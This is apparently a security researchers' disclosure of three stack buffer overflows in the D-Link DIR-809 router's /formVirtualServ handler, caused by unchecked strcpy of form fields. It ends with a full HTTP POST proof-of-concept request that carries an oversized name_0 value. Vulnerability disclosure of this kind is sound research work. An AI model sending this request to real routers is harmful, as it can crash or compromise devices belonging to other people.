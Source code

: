 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_09h01_44](README/2021-05-10_09h01_44.png)

The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 

![2021-05-09_20h27_04](README/2021-05-09_20h27_04.png)

![2021-05-09_20h33_14](README/2021-05-09_20h33_14.png)



## PoC

``` 
POST /formVirtualServ.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 4983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server.asp?t=1620556982214
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=sVlZzC4RHx
Connection: close

settingsChanged=1&curTime=1620557025736&HNAP_AUTH=B57888CD9D38113835E437CE4735DFC4+1620557025&submit-url=%2FAdvanced%2FVirtual_Server.asp&index=1&enabled_0=0&used_0=0&name_0=1231231231233*0x200&default_virtual_servers_0=-1&public_port_0=10000&public_port_to_0=10000&ip_0=192.168.0.34&computer_list_ipaddr_select_0=-1&private_port_0=10000&hidden_private_port_to_0=10000&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&public_port_to_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&hidden_private_port_to_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&public_port_to_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&hidden_private_port_to_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&public_port_to_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&hidden_private_port_to_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&public_port_to_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&hidden_private_port_to_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&public_port_to_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&hidden_private_port_to_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&public_port_to_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&hidden_private_port_to_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&public_port_to_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&hidden_private_port_to_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&public_port_to_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&hidden_private_port_to_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&public_port_to_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&hidden_private_port_to_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&public_port_to_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&hidden_private_port_to_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&public_port_to_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&hidden_private_port_to_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&public_port_to_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&hidden_private_port_to_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&public_port_to_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&hidden_private_port_to_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&public_port_to_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&hidden_private_port_to_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&public_port_to_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&hidden_private_port_to_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&public_port_to_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&hidden_private_port_to_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&public_port_to_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&hidden_private_port_to_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&public_port_to_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&hidden_private_port_to_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=-1&public_port_19=&public_port_to_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&hidden_private_port_to_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=-1&public_port_20=&public_port_to_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&hidden_private_port_to_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&public_port_to_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&hidden_private_port_to_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&public_port_to_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&hidden_private_port_to_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&public_port_to_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&hidden_private_port_to_23=&protocol_23=1
```





## Acknowledgment

Credit to [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/) , [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

